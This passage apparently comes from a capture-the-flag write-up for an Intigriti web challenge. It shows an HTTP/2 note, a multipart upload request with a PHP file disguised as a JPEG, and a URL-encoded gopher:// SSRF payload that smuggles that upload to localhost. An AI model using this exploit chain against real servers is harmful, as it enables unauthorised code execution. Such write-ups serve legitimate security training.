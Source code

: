     - HTTP/2 uses a binary framing layer with a specific connection preface and structured frames. It does not accept plaintext CRLF-delimited request lines on the wire. Sending “GET … \r\n” bytes will not form a valid HTTP/2 stream, so the server won’t interpret it as a request, which is why that approach doesn’t work under HTTP/2.


![12]

Keep in mind that you should input the payload directly on the GUI field.

### Crafting POST request

With the help of AI, I built a baseline POST request to have a foundation to work from.

```http
POST /upload_shoppix_images.php HTTP/1.1 
Host: challenge-1025.intigriti.io 
Content-Type: multipart/form-data; boundary=-----boundary 
Content-Length:  

-----boundary
Content-Disposition: form-data; name="image"; filename="s1x.jpg.php" 
Content-Type: image/jpeg

-----boundary--
```

Go to Burp Repeater and start work with it.

![13]

Now go to cyber chef and encode it in URL format.

![14]

[Encoded Payload](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=UE9TVCAvdXBsb2FkX3Nob3BwaXhfaW1hZ2VzLnBocCBIVFRQLzEuMQ0KSG9zdDogY2hhbGxlbmdlLTEwMjUuaW50aWdyaXRpLmlvDQpDb250ZW50LVR5cGU6IG11bHRpcGFydC9mb3JtLWRhdGE7IGJvdW5kYXJ5PS0tLS1ib3VuZGFyeQ0KQ29udGVudC1MZW5ndGg6IDE5MA0KDQotLS0tLS1ib3VuZGFyeQ0KQ29udGVudC1EaXNwb3NpdGlvbjogZm9ybS1kYXRhOyBuYW1lPSJpbWFnZSI7IGZpbGVuYW1lPSJzMXguanBnLnBocCINCkNvbnRlbnQtVHlwZTogaW1hZ2UvanBlZw0KDQr9UE5HDQoaDQoNCklIRFL9/QgG41QEc0JJVAgICAh8CA0KDQo8P3BocCBwaHBpbmZvKCkgPz4NCi0tLS0tLWJvdW5kYXJ5LS0&ieol=CRLF&oeol=CRLF)

And finally, add it to the gopher payload and append the CRLF at the end.

```http
gopher://127.1:80/_POST%20%2Fupload%5Fshoppix%5Fimages%2Ephp%20HTTP%2F1%2E1%0D%0AHost%3A%20challenge%2D1025%2Eintigriti%2Eio%0D%0AContent%2DType%3A%20multipart%2Fform%2Ddata%3B%20boundary%3D%2D%2D%2D%2Dboundary%0D%0AContent%2DLength%3A%20190%0D%0A%0D%0A%2D%2D%2D%2D%2D%2Dboundary%0D%0AContent%2DDisposition%3A%20form%2Ddata%3B%20name%3D%22image%22%3B%20filename%3D%22s1x%2Ejpg%2Ephp%22%0D%0AContent%2DType%3A%20image%2Fjpeg%0D%0A%0D%0A%C3%BDPNG%0D%0A%1A%0D%0A%0D%0AIHDR%C3%BD%C3%BD%08%06%C3%A3T%04sBIT%08%08%08%08%7C%08%0D%0A%0D%0A%3C%3Fphp%20phpinfo%28%29%20%3F%3E%0D%0A%2D%2D%2D%2D%2D%2Dboundary%2D%2D%0D%0A
```


![15]
